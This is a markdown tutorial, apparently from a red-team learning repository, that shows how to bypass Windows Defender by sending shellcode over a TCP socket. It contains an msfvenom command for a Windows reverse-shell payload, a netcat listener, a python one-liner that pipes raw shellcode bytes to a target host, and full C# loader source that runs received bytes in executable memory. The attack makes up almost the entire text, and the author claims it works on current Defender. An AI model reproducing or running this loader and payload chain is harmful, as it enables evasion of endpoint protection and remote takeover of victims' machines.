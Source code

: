 # Antivirus Evasion - Part 2

## Using Sockets to bypass Defender

We open a TCP socket port and send shellcode over that which is later executed to give reverse shell.

This works on latest defender as of Feb15 2021


### Steps 
- Prepare payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -b "\x00" -f csharp
```
- Once done compile the below code to generate exe which opens port 8080 on the ipv4 interface.
- Once done start reverse shell handler on kali
```
nc -nlvp 80
```
- Now send shellcode over the TCP socket which will be executed by executable.
```
python -c 'print "\xda\xc9\xbd\x4c\xee\xdc\x9e\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\x31\x6e\x17\x03\x6e\x17\x83\xa2\x12\x3e\x6b\xc6\x03\x3d\x94\x36\xd4\x22\x1c\xd3\xe5\x62\x7a\x90\x56\x53\x08\xf4\x5a\x18\x5c\xec\xe9\x6c\x49\x03\x59\xda\xaf\x2a\x5a\x77\x93\x2d\xd8\x8a\xc0\x8d\xe1\x44\x15\xcc\x26\xb8\xd4\x9c\xff\xb6\x4b\x30\x8b\x83\x57\xbb\xc7\x02\xd0\x58\x9f\x25\xf1\xcf\xab\x7f\xd1\xee\x78\xf4\x58\xe8\x9d\x31\x12\x83\x56\xcd\xa5\x45\xa7\x2e\x09\xa8\x07\xdd\x53\xed\xa0\x3e\x26\x07\xd3\xc3\x31\xdc\xa9\x1f\xb7\xc6\x0a\xeb\x6f\x22\xaa\x38\xe9\xa1\xa0\xf5\x7d\xed\xa4\x08\x51\x86\xd1\x81\x54\x48\x50\xd1\x72\x4c\x38\x81\x1b\xd5\xe4\x64\x23\x05\x47\xd8\x81\x4e\x6a\x0d\xb8\x0d\xe3\xe2\xf1\xad\xf3\x6c\x81\xde\xc1\x33\x39\x48\x6a\xbb\xe7\x8f\x8d\x96\x50\x1f\x70\x19\xa1\x36\xb7\x4d\xf1\x20\x1e\xee\x9a\xb0\x9f\x3b\x0c\xe0\x0f\x94\xed\x50\xf0\x44\x86\xba\xff\xbb\xb6\xc5\xd5\xd3\x5d\x3c\xbe\x1b\x09\x44\x3f\xf4\x48\xb8\x3f\x54\xc4\x5e\x55\x44\x80\xc9\xc2\xfd\x89\x81\x73\x01\x04\xec\xb4\x89\xab\x11\x7a\x7a\xc1\x01\xeb\x8a\x9c\x7b\xba\x95\x0a\x13\x20\x07\xd1\xe3\x2f\x34\x4e\xb4\x78\x8a\x87\x50\x95\xb5\x31\x46\x64\x23\x79\xc2\xb3\x90\x84\xcb\x36\xac\xa2\xdb\x8e\x2d\xef\x8f\x5e\x78\xb9\x79\x19\xd2\x0b\xd3\xf3\x89\xc5\xb3\x82\xe1\xd5\xc5\x8a\x2f\xa0\x29\x3a\x86\xf5\x56\xf3\x4e\xf2\x2f\xe9\xee\xfd\xfa\xa9\x1f\xb4\xa6\x98\xb7\x11\x33\x99\xd5\xa1\xee\xde\xe3\x21\x1a\x9f\x17\x39\x6f\x9a\x5c\xfd\x9c\xd6\xcd\x68\xa2\x45\xed\xb8"' | nc 192.168.122.189 8080
```

Code:
```c#
using System.Runtime.InteropServices;
using System;
using System.Net.Sockets;
using System.Net;
class Program
{
    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(UInt32 lpAddress, UInt32 dWsize, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt32 dwCreationFlags, IntPtr lpThradId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliSeconds);

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

    static void Main(string[] args)
    {
	// Socket creation
        IPHostEntry ipHost = Dns.GetHostEntry(Dns.GetHostName());
        IPAddress ipAddress = ipHost.AddressList[1];
        IPEndPoint localEndpoint = new IPEndPoint(ipAddress, 8080);

        Socket s = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
        s.Bind(localEndpoint);
        s.Listen(5);

	# Accept incomming connection
        Socket handler = s.Accept();
        byte[] bytes = new byte[1024];
        byte[] shellcode;

	#Save the incomming bytes to a byte array to execute
        while (true)
        {
            int bytesRec = handler.Receive(bytes);
            shellcode = new byte[bytesRec];
            Buffer.BlockCopy(bytes, 0, shellcode, 0, bytesRec);
            break;
        }

        IntPtr address = VirtualAlloc(0, (UInt32)(shellcode.Length - 1), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, address, shellcode.Length - 1);
        IntPtr threadHandle = CreateThread(0, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(threadHandle, 0xFFFFFFFF);
    }
}
```

## Pre-Requisite
- The structure of the VirtualAlloc,CreateThread and WaitForSingleObject has been explained on [day1](../days/day1.md)
- Reason for doing `shellcode.Length-1` is that upon sending the shellcode over nc there would be extra new linw which is not part of shellcode.
- I dont find need to consider cases where shellcode is greater than 1024 since that is very impractical for most of use cases.

## Reference
- The idea was taken from [Ired Teams](https://www.ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code). The techinique is still valid and works on all level of protection by defender.

